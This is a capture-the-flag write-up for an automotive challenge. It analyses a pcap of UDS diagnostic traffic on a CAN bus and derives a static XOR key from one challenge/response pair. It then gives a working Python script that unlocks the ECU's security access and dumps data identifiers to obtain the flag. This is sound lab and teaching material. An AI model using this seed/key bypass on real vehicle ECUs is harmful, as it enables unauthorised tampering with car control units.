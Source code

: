 ## Recon  
initial recon same as for all OBD Tuning (see our OBD Tuning 2
[writeup](https://ctftime.org/writeup/23318))

## Analysis of the pcap  
in the provided pcap dump with a bit car hacking knowledge one can see some
[UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) commands
going on.  
intresting for OBD-Tuning-1 are the CANid 0x600 and 0x641 (tx/rx)  
one can see following procedure in the dump:

* 10 02 means "init diagnostic session"  
* 27 01 is security access "send challenge"  
* 27 02 is security access "response"  
* 22 00 00 is read Data By CommonIdentifier, you can read various infos from the ECU

those commands are wrapped in [ISO-
TP](https://en.wikipedia.org/wiki/ISO_15765-2) as underlying transport
protocol.  
also you can see in the dump the recevied data on identifier 0x00 is
```Flag.is.on.id.0x42```

## Task  
so the job is:  
* find a valid login to the ECU  
* read CommonIdentifier 0x42 for the flag

in actual cars for the security challenge/response process there is some kind
of micro definition language, which  
describes the operations to be performed on the challenge for a valid response
(this is basic stuff like ADD, SUB, XOR, small loops etc.)  
so its also always worth to test for simple and basic operations like an add
or xor.

and indeed when you use the valid challenge-response pair you got from the
pcap

```  
1012 6701 6813c2df8172ecf3988efc3a9cf1520e  
         xor  
1012 2702 5c21f6edb540d8c1acbcc808a8c3663c  
         =  
         34323432343234323432343234323432  
```  
it seems as key for the respone ```34323432343234323432343234323432``` was
used ("424242...")

## Attack  
so we know what to do: login with a challenge/response where we xor the
challenge with our found key and then read identifier 0x42 (someone really
likes 42)  
a quick hacked python script, did the job:

```python  
SOL_CAN_ISOTP = 106 # These constants exist in the module header, not in
Python.  
CAN_ISOTP_RECV_FC = 2  
# Many more exists.

import socket  
import struct  
import time

def hexdump(data):  
output = ""  
for i in range(0,len(data),2):  
 value =  int(data[i:i+2],16)  
 if value > 0x20 and value < 0x80:  
  output += chr(value)  
 else:  
  output += "."  
return(output)  
  
# init sockets  
s2 = socket.socket(socket.AF_CAN, socket.SOCK_DGRAM, socket.CAN_ISOTP)  
s2.bind(("vcan0", 0x0641, 0x0600)) #rxid, txid with confusing order.

# init diag session UDS: 10 02  
s2.send(b"\x10\x02")  
data = s2.recv(4095)  
print("answer to 0x10: " + hex(data[0]) )

# security access request challenge UDS 27 01  
print("sending get challenge (27 01)")  
s2.send(b"\x27\x01")  
data = s2.recv(4095)  
dump = ''.join("%02X" % _ for _ in data)  
print("answer to 27 01: " + dump + " " + hexdump(dump) )

num = int(dump[4:],16)  
print("chal: " + hex(num))

# calculate response  
resp = num ^ 0x34323432343234323432343234323432  
print("resp: " + hex(resp))

# send back  
s2.send(b"\x27\x02" + bytes.fromhex(hex(resp)[2:]) )  
data = s2.recv(4095)

# unlocked, now dump all readDataByCommonIdentifier (not to miss anything)  
print("dumping all common identifier Data")  
  
for i in range(256):  
s2.send(b"\x22\x00" + chr(i).encode())  
data = s2.recv(4095)  
dump = ''.join("%02X" % _ for _ in data)  
print("answer to 0x22 00 %02X" % i + ": " + dump + " " + hexdump(dump) )

```  
and so the ECU gave us the flag

```  
obd@obd-tuning-ecus:/home/obd$ python3 obd1.py  
answer to 0x10: 0x50  
sending get challenge (27 01)  
answer to 27 01: 670167987F8A8248B127A411253FE49EB8EE g.g..H.'..%?....  
chal: 0x67987f8a8248b127a411253fe49eb8ee  
resp: 0x53aa4bb8b67a85159023110dd0ac8cdc  
dumping all common identifier Data  
answer to 0x22 00 00: 620000466C6167206973206F6E2069642030783432
b..Flag.is.on.id.0x42  
answer to 0x22 00 01: 7F2231"1  
...  
answer to 0x22 00 40: 7F2231"1  
answer to 0x22 00 41: 7F2231"1  
answer to 0x22 00 42:
620042414C4C45537B653473795F53345F31735F7468335F736831747D
b.BALLES{e4sy_S4_1s_th3_sh1t}  
answer to 0x22 00 43: 7F2231"1  
...  
```

## ALLES{e4sy_S4_1s_th3_sh1t}  
macz